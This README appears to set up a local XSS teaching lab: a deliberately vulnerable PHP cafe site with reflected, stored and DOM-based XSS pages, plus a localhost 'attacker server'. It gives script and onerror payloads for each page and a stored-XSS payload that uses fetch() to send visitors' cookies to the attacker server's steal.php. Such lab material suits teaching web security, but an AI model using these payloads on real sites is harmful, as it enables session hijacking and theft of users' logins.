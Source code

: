 # ReadMe

## Setup

Steps to setup the environment.

> [!WARNING]
> Prerequisites: Download XAMPP  

### Setup MySQL (Running on port 8080)

- Start the Database Server on the XAMPP

- Go to `MySQL` 
  ```bash
  http://localhost:8080/phpmyadmin/
  ```
- Create the database
	- Database name: `db_745`
	- Table name: `reviews`
	- Fields: `Users`, `Comments`, `id`
	![picture 1](images/318ae36c81032737bc4e21d6887d339cc54bb4d3339f7bf3b26ba974e4634cae.png)  

### Setup Cafe Server

- Put `cafe` files in the following structure
	```
	xampp/htdocs/cafe/
	│── assets/				# images
	│── admin.php			# admin login page
	│── db.php				# Database connection file  
	│── index.php			# Main café homepage  
	│── recommendation.php	# DOM-Based XSS demo (dynamic content)  
	│── review.php			# Stored XSS demo (user reviews)  
	│── search.php			# Reflected XSS demo (search bar)  
	└── style.css			# Styling for the website  
	```
- Start the Web Server

- Go to the `cafe` website
  ```bash
  http://localhost:8080/cafe
  ```

### Setup Attacker's Server (Running on port 8000)

- Put attack file in the following structure
	```
	xampp/htdocs/cafe/
	│── log.txt				# stolen information (cookies)
	└── style.css			# stealer code
	```

- Run the attacker server using php
	- Go to the attacker's working directory `xampp/htdocs/attacker/`
	- Open a powershell from here and run the following command
		```bash
 		C:/xampp/php/php -S 127.0.0.1:8000
		```
## Attack

Steps to attack the vulnerable websites

### **Reflected XSS**

The `search` page is vulnerable to `Refected XSS`.

Type in the following command to the search bar to execute an alert. The alert can  be replaced with more dangerous command.

```bash
<script>alert('XSS Attack!')</script>
```
![picture 2](images/7d29d04860bf17db24653480736e11b224aa69a063a02d46879812ec47cb5dd4.png)  

Command got executed.

![picture 3](images/7722ccbf59ac191c660bd78a90bb18756de9944e17aa55ba9e5c5a62fe003ea3.png)  


### **Stored XSS**

The `Review` page is vulnerable to `Stored XSS`.

Type in the following information to the respective fields to trigger an alert.
	- Username: Attacker
	- Review: <script>alert('Hacked!')</script>

```bash
<script>alert('Hacked!')</script>
```

![picture 4](images/8fdd29afff14ae78715405f81d6d40ef9cc8c8b44bfb4cfce7f130c1b2833451.png)  

Command got executed.

![picture 5](images/8fb52f44749eab45020e93876f5ef2a6bdab5e8f83876585ab4c98768615b213.png)  

### **DOM-based XSS**

The `Recommendations` page is vulnerable to `DOM-based XSS`.

Type the following information to the searchbox to trigger an alert.

```bash
<img src=x onerror="alert('XSS Attack')">
```
![picture 7](images/0503aa4ab076abe69a770889a50877de9344dd1261ca48a940b1e6ae64d9760d.png)  

Command got executed.

![picture 8](images/edfa812d518fb90f88ac9437445408755ccd0083132e43aeb83dfb74ef796fa5.png)  

## Advanced Attack

> [!WARNING]
> For this attack to succeed, the attacker php server needs to be running.

In the previous examples, the just execute the alert.

In this section, we'll try to steal cookies (including user login cookie) from the `Review` page.

As an attacker, type the following input to the respective fields in the `Review` page.
	- Username: Attacker
	- Review: `<script> fetch('http://localhost:8000/steal.php?cookie=' + document.cookie); </script>`

![picture 9](images/459c41dd8d46cd6559aa018fe5d29b9c596b894e2210038b93d8a61fc6592dfa.png)  

Every time a user use this page, the cookies will be sent to the attacker's server in file `log.txt`

![picture 10](images/0ac942705ee67ff16ac01950db4af7d9a92e524daa93e3bdef6cb779daaa1b16.png)  

The cookies are stolen.

![picture 11](images/f5373aaf1146fda23ae35c680fea5046866fced15a33784240678d2a748f0b3f.png)  



